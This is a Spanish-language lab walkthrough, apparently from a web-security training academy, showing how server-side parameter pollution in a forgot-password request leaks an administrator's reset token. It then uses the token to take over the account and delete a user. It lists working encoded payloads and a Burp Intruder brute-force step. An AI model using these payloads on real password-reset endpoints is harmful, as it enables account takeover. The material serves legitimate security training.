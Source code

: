 
---

## 🧪 Lab: Explotación de Server-Side Parameter Pollution en Query String

**Objetivo**: Iniciar sesión como **administrator** y eliminar al usuario **carlos**.

---

### 🔐 1. Trigger del reset de contraseña

- Ir al navegador de Burp.
    
- Iniciar el proceso de "¿Olvidaste tu contraseña?" para el usuario `administrator`.
    
- En **Proxy > HTTP history**, observar:
    
    - `POST /forgot-password`
        
    - `GET /static/js/forgotPassword.js`
        

---

### 📤 2. Analizar la solicitud POST

- Enviar `POST /forgot-password` al **Repeater**.
    
- En Repeater:
    
    - Confirmar que el request con `username=administrator` da respuesta normal.
        ![image](https://github.com/user-attachments/assets/bcb42ad7-227d-4814-b2eb-838067038a58)

    - Probar con `username=administratorx` → da error `Invalid username`.
        ![image](https://github.com/user-attachments/assets/214c0dad-c456-41a1-813d-a28b408f7b49)


---

### 💉 3. Probar inyección de parámetro con `%26` (`&` codificado)

- Probar:
    
    ```
    username=administrator%26x=y
    ```
    
    Resultado: `Parameter is not supported` → 💡 hay un intento de interpretar `x=y` como parámetro válido.
    ![image](https://github.com/user-attachments/assets/04cff10f-d9cd-41b5-a877-a39013cf45ec)


---

### ✂️ 4. Probar truncamiento con `%23` (`#` codificado)

- Probar:
    
    ```
    username=administrator%23
    ```
    
    Resultado: `Field not specified` → 💡 se eliminó probablemente un campo requerido.
    ![image](https://github.com/user-attachments/assets/b05f1888-e4fb-4234-af6d-d93a99025a72)


---

### 🧪 5. Inyectar y truncar parámetro `field`

- Probar:
    
    ```
    username=administrator%26field=x%23
    ```
    
    Resultado: `Invalid field` → 💡 el campo `field` es reconocido.
    ![image](https://github.com/user-attachments/assets/113349b0-73fb-4e1c-afcb-12a76b4b4f80)


---

### 🔁 6. Fuerza bruta de `field`

- Enviar a **Intruder**:
    
    - Payload:
        
        ```
        username=administrator%26field=§x§%23
        ```
        
    - Lista: `Server-side variable names`
        
    - Resultado: `email` y `username` dan respuesta 200.
        ![image](https://github.com/user-attachments/assets/0edcd4b6-4b3f-47b3-bb7f-3e9dbd34bba4)


---

### 🧠 7. Buscar token de reseteo

- En `/static/js/forgotPassword.js` aparece:
    
    ```
    /forgot-password?reset_token=${resetToken}
    ```
    
- En Repeater, probar:
    
    ```
    username=administrator%26field=reset_token%23
    ```
    
- 💥 Se obtiene el `reset_token`.
    ![image](https://github.com/user-attachments/assets/27bf0591-e25a-46b0-bda4-85e276e2e4c7)

```css
{
  "type":"reset_token",
  "result":"<token>"
}
```

---

### 🔑 8. Resetear contraseña del administrador

- En el navegador:
    
    ```
    /forgot-password?reset_token=<token>
    ```
    
- Establecer nueva contraseña.
    ![image](https://github.com/user-attachments/assets/8e6e81e9-c400-4011-a0d9-28adef6a61db)


---

### ✅ 9. Iniciar sesión como `administrator`

- Entrar al panel de administración.
    
- Eliminar al usuario `carlos`.
    

✅ **¡Lab resuelto!**
![image](https://github.com/user-attachments/assets/64dad018-effb-4172-b8e5-95c434b24507)

---

